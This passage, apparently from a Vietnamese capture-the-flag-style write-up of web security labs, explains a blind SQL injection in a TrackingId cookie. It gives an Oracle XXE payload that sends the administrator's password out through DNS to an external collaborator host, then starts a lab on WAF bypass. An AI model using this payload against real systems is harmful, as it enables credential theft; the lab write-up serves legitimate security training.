 Máy chủ không kiểm tra hoặc làm sạch (sanitize) dữ liệu đầu vào từ tham số TrackingId trước khi đưa vào truy vấn SQL. Không có cơ chế loại bỏ hoặc escape các ký tự nguy hiểm (ví dụ: ', ;, --) trong đầu vào.

## **Cách khai thác:**

Ta sẽ gán phần truy vấn vào đầu của subdomain như thế này:

'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN

Dùng payload trong cheat sheet và copy BURP-COLLABORATOR-SUBDOMAIN đã có payload hoàn chỉnh sau:

'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.1fhbfps0qrutcaf0hnska2e86zcr0ho6.oastify.com/"> %remote;]>'),'/l') FROM dual)--

Inject vào TrackingId và URL-encoded, đợi 1 lúc ta sẽ có DNS như sau:

![](Images/image70.png)

Vói phần đầu của DNS là password của admin: rwfxkvjmo7berxfkgl1b

![](Images/image71.png)

# Lab18: SQL injection with filter bypass via XML encoding

Trong lab này có chứa vul SQLi tại check stock, ta sẽ thực hiện SQLi để lấy password của administrator. Tuy nhiên WAF sẽ block những dấu hiệu có SQLi quá rõ ràng

## **Root cause:**

Web application firewall (WAF) chưa được cấu hình đúng cách, có thể dễ bypass bằng extension Hackvector trong BurpSuite

## **Cách khai thác:**
